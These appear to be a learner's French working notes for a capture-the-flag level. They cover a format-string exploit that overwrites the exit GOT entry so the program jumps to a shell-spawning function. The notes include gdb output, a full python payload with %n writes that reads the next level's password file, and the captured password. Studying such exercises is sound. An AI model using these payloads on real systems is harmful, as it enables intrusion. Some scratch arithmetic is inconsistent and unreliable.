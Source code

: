 
printf adrr = 0x8048380 = \x80\x83\x04\x08 

mon print est a +4 de 200 donc a 4 classic

premierre condition a modif = 0x804984c = │0x8048427 <__do_global_dtors_aux+7>     cmpb   $0x0,0x804984c          = \x4c\x98\x04\x08        
                                                                                                    │
v0 = 0x8049850 = eax


changer l adresse de dtor end  /// ou changer dtor_idx_6161 en negatif 

changer la condition pour que elle soit == 0
ensuite il faut changer la redirection du jump du compare vers le call de notre function o
set variable;

call exit = 0xe8    0xcc    0xfe    0xff    0xff 

0x100909a8 - 0x80484a5 

call ret= 269027752 new = 0x10090a07 = 269027847 new = 269027849
function o = 134513829
diff = 134513923


269027752 - 134513829 = 134513923 = 94


134513923 - 134513829 = 94

temp  + 134514017

0x8048503

0x8048505

0x8048504 - 0x80484a4 = 0x60
134513924 - 134513828 

set variable *(long*)0x8048500=-96

\x00\x85\x04\x08

FFA0

0x80484ff
232 

x 0x80484c2 = 0x81e58955

0x81e58955 - 0x80484c2 = 0x79E10493



change dtor list en raoutant -1 
ensuite add le pointer de function sur _DTOR_LIST__[v0 + 1]



outils:
	https://hex-works.com/

observations:
	Il y a une fonction <o> qui execute "/bin/sh"
	Probablement modifier la stack de printf pour changer son adresse de retour vu que nous n'avons pas d'insttuction de retour
	dans les autres fonctions (ca va etre fastidieux)
	Appel a fonction <exit> et fonction <_exit>

strategie:
	modifier l'operation de saut de la fonction d'appel cour <exit> pour pointer vers la fonction <o> 		

cmd gdb:
	p o
	 `-> $9 = {<text variable, no debug info>} 0x80484a4 <o>
	info address exit@plt
	 |-> Symbol "exit@plt" is at 0x80483d0 in a file compiled without debugging.
	 |
	 `-> La premiere ligne de la fonction ressemble a ca : (jmp *0x8049838)


solution:
	Je vais modifier l'adresse a laquelle l'operation jmp va dans la memoire pour pointer vers l'adresse de la fonction <o>

cmd:
	(python -c "print('\x38\x98\x04\x08' + 'A'*4 + '\x39\x98\x04\x08' + 'A'*4 + '\x3a\x98\x04\x08' + '%8.x'*3 + 'A'*120 + '%n' + '%992.x' + '%n' + '%896.x' + '%n')"; echo "cat /home/user/level6/.pass") | ./level5

pass:
	d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
